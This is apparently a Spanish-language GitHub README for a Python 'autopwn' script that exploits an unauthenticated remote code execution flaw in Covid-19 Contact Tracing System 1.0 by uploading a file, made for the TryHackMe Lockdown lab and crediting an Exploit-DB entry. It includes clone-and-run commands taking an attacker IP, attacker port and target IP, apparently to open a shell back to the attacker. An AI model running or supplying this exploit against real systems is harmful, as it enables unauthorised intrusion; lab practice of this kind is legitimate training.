# Covid19 Contact Tracing System 1.0 (Unauthenticated RCE)
Este es un exploit que use y mejoré para la máquina Lockdown de TryHackMe, te automatiza practicamente toda la intrusión mediante la subida de un fichero a la máquina. Para esto, obviamente la aplicación debe trabajar con el Contact Tracer, "Covid-19 Contact Tracing System 1.0".

## Motivos de la creación
* Practicar Python3 
* Hacer un script autopwn

## Instalación y uso
```bash 
$ git clone https://github.com/sha-16/Covid19-Contact-Tracing-System-1.0.git
$ cd Covid19-Contact-Tracing-System-1.0/
$ chmod +x covid19_contacttracer.py
$ python3 covid19_contacttracer.py <attacker-ip> <attacker-port> <target-ip>
```
## Créditos
**Exploit v1**: https://www.exploit-db.com/exploits/49604

**Nota:** si tienes propuestas para mejorar este script o cambiar cosas, hazmelas saber por favor... me ayudarías mucho ❤.
